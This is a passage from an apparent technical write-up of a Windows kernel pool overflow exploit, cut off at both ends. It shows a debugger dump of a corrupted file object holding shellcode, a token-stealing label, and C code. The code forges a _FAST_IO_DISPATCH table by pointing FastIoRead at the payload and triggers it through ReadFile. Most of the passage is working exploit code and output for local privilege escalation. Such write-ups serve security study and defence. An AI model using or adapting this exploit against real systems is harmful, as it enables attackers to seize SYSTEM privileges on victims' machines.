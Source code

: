  
StealSysToken: dd 0x0
{% endhighlight %}
The content of the file object after the overflow:
```text
kd> db 865228d0 LB8
865228d0  56 00 17 04 46 69 6c e5-00 00 00 00 00 00 00 00  V...Fil.........
865228e0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
865228f0  22 22 00 00 22 22 00 00-00 00 00 00 1c 00 04 40  "".."".........@
86522900  00 00 00 00 00 00 00 00-cc e8 00 00 00 00 59 83  ..............Y.
86522910  e9 06 0f 20 e0 0f ba f0-14 0f 22 e0 ff 51 27 8b  ... ......"..Q'.
86522920  44 24 1c 31 d2 89 10 89-50 04 b0 01 c2 20 00 c0  D$.1....P.... ..
86522930  d1 97 00 00 42 00 04 00-14 00 14 00 08 ce 7a 8f  ....B.........z.
86522940  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
86522950  00 00 00 00 01 00 04 00-00 00 00 00 5c 29 52 86  ............\)R.
86522960  5c 29 52 86 00 00 04 00-01 00 00 00 6c 29 52 86  \)R.........l)R.
86522970  6c 29 52 86 00 00 00 00-00 00 00 00 7c 29 52 86  l)R.........|)R.
86522980  7c 29 52 86 00 00 00 00                          |)R.....
kd> dt _object_header 865228f0
nt!_OBJECT_HEADER
   +0x000 PointerCount     : 0n8738 ;Mark
   +0x004 HandleCount      : 0n8738 ;Mark
   +0x004 NextToFree       : 0x00002222 Void
   +0x008 Lock             : _EX_PUSH_LOCK
   +0x00c TypeIndex        : 0x1c ''
   +0x00d TraceFlags       : 0 ''
   +0x00e InfoMask         : 0x4 ''
   +0x00f Flags            : 0x40 '@'
   +0x010 ObjectCreateInfo : (null) 
   +0x010 QuotaBlockCharged : (null) 
   +0x014 SecurityDescriptor : (null) 
   +0x018 Body             : _QUAD
```
Function Overlow listed above returns the address of the constructed object. We use the returned address to build_FAST_IO_DISPATCH function table:
{% highlight C %}
    DROP_FILE_WITH_CHECK(Payload);
    r = Overflow(hDevice, &pPayload, &hObject);
    printf("Payload: %p\n", pPayload);
    CHECK_NULL_EXIT(pPayload);
    DeleteFiles();

    //offset nt!_FAST_IO_DISPATCH::FastIoRead
    p = (PVOID *)&FastIo[0x334 + 0x10];
    *p = pPayload;
    DROP_FILE_WITH_CHECK(FastIo);
    Overflow(hDevice, &pFastIo, &hObject);
    printf("FastIo: %p\n", pFastIo);
    CHECK_NULL_EXIT(pFastIo);
    DeleteFiles();
{% endhighlight %}
Similarly, we build the rest of objects in the chain and trigger execution by calling ReadFile API:
{% highlight C %}
void exploit()
{
#define CHECK_NULL_EXIT(p) if ((p) == NULL) goto Exit;
#define CHECK_DROP_FILE(p) if ((p) == FALSE) { printf("DropFile failed\n"); goto Exit; }
#define DROP_FILE_WITH_CHECK(Data) { \
r = DropFile((Data), sizeof((Data))); \
if (r == FALSE) \
{ \
    printf("DropFile failed\n"); \
    goto Exit; \
} \
}